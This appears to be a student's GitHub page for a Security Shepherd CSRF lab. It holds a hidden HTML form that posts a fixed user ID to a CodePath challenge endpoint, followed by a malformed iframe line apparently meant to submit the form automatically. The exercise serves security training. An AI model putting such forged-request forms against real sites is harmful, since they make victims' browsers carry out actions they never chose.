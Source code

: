 # JLPlummer79.github.io

#Form for the Security Shepard assignment

<form name="csrf_form" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method=POST>
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd" />
  <input type="submit"/>
</form>

<iframe document.csrf_form.submit(); /iframe>
